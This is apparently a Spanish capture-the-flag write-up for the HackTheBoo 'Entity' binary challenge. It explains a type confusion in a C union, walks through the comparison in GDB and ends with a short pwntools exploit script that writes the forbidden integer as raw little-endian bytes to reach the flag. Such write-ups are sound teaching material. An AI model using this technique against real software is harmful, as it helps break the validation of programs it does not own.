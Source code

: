 ```yaml
---
layout: post
title: HackTheBoo Entity - Type Confusion via Union
author: c4rta
date: 2023-04-15
##categories: [Explotacion binaria]
tags: [Explotacion Binaria, Type Confusion] 
---
```

Tenemos un binario donde explotaremos la vulnerabilidad Type Confusion para utilizar incorrectamente un valor de un tipo como si fuera otro tipo.
{:.lead}

## Analisis

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
### Main

```c
int main() {
    setvbuf(stdout, NULL, _IONBF, 0);
    bzero(&DataStore, sizeof(DataStore));
    printf("\nSomething strange is coming out of the TV..\n");
    while (1) {
        menu_t result = menu();
        switch (result.act) {
        case STORE_SET:
            set_field(result.field);
            break;
        case STORE_GET:
            get_field(result.field);
            break;
        case FLAG:
            get_flag();
            break;
        }
    }

}
```
En el main, tenemos un ```switch case``` con 3 opciones, donde dependiendo de lo que este en la funcion ```menu```, es lo que va a hacer

### Menu

```c
menu_t menu() {
    menu_t res = { 0 };
    char buf[32] = { 0 };
    printf("\n(T)ry to turn it off\n(R)un\n(C)ry\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    buf[strcspn(buf, "\n")] = 0;
    switch (buf[0]) {
    case 'T':
        res.act = STORE_SET;
        break;
    case 'R':
        res.act = STORE_GET;
        break;
    case 'C':
        res.act = FLAG;
        return res;
    default:
        puts("\nWhat's this nonsense?!");
        exit(-1);
    }
```

Nos damos cuenta que en la opcion ```C``` corresponde al ```case FLAG``` de la funcion main:

```c
case FLAG:
    get_flag();
    break;
```
Donde se manda a llamar a la funcion ```get_flag()```:

```c
void get_flag() {
    if (DataStore.integer == 13371337) {
        system("cat flag.txt");
        exit(0);
    } else {
        puts("\nSorry, this will not work!");
    }
}
```
Donde para mostrar la flag, tenemos que hacer que ```DataStore.integer``` sea igual a ```13371337```, sin embargo, hay una funcion que nos lo impide:

```c
void set_field(field_t f) {
    char buf[32] = {0};
    printf("\nMaybe try a ritual?\n\n>> ");
    fgets(buf, sizeof(buf), stdin);
    switch (f) {
    case INTEGER:
        sscanf(buf, "%llu", &DataStore.integer);
        if (DataStore.integer == 13371337) {
            puts("\nWhat's this nonsense?!");
            exit(-1);
        }
        break;
    case STRING:
        memcpy(DataStore.string, buf, sizeof(DataStore.string));
        break;
    }

}
```
Donde esta validando si ```DataStore.integer``` es igual a ```13371337``` que imoprima en pantalla el mensaje ```puts("\nWhat's this nonsense?!");``` y sale del programa

### Codigo vulnerable

Cada vez que se esta usando ```DataStore.integer``` se hace referencia a esta estructura:

```c
static union {
    unsigned long long integer;
    char string[8];
} DataStore;
```

En C, la estructura ```union``` puede almacenar varios tipos de datos en la misma direccion de memoria. Por ejemplo, en este caso, ```integer``` es una variable que ocupa 8 bytes en la memoria, la cual almacena un valor entero de 64 bits, y ```string``` es otra variable la cual es una arreglo de caracteres que igual ocupa 8 bytes en la memoria (cada letra es un byte), y nosotros podemos acceder a esas variables a travez de ```DataStorage``` dependiendo de como queremos interpretar los datos dentro de ```union```, y ```union``` se encargara de ponerlas en la misma direccion de memoria, idependientemente del tipo de dato.

Y de toda esta explicacion viene la vulnerabilidad ```Type confusion``` o confusion de tipos, en la cual basicamente es un tipo de vulnerabilidad que ocurre cuando un programa utiliza incorrectamente un valor de un tipo como si fuera otro tipo. Y para este ejercicio podemos utilizar incorrectamente del valor de la variable ```string``` como si fuera el de la variable ```integer```

**Problema**

Al intentar pasarle el numero ```13371337``` como string, indicandole la opcion ```S``` como lo indica el ```case S```:

```c
case 'S':
    res.field = STRING;
    break;
```

El programa no muestra la flag:

![](/assets/img/HTB-entity/tc1.png)

Y es por esta comprobacion:

```c
case STRING:
    memcpy(DataStore.string, buf, sizeof(DataStore.string));
    break;

```
Sin embargo se supone que esta todo "bien", asi que para ver que se esta comparando realmente en ```DataStore.integer == 13371337```

### Analisis con GDB

En un gdb metere un breakpoint en la intruccion donde se realiza la comparacion:

```
0x0000000000001412 <+11>:	cmp    rax,0xcc07c9
```

Primero que nada, lo que esta haciendo ```cmp    rax,0xcc07c9``` es comparar ```DataStorage``` que se guarda en ```rax```, con ```0xcc07c9``` que es el numero ```13371337```. Cuando ejecute el programa yo le indique que se guardara como string.

Al ver el valor de ```rax```:

![](/assets/img/HTB-entity/tc2.png)

Nos podemos dar cuenta que lo que se guarda en ```DataStorage``` es un decimal: ```0x3733333137333331```, entonces para explotar esta confusion de tipos, podemos mandarle el numero 13371337 como string de bytes en little endian, por que ya no se estaria comprobando en la funcion ```set_field```, osea asi:

```
b'\xc9\x07\xcc\x00\x00\x00\x00\x00'
```

## Exploit

Y con todo lo anterior, el exploit queda asi:

```python
from pwn import *

p = process("./entity")

p.sendline("T")
p.sendline("S")
p.sendline(p64(13371337))
p.sendline("C")
p.interactive()
```

Y ya tenemos la flag:

![](/assets/img/HTB-entity/tc3.png)

Eso ha sido todo, gracias por leer ❤

![](/assets/img/HTB-entity/waifu.gif)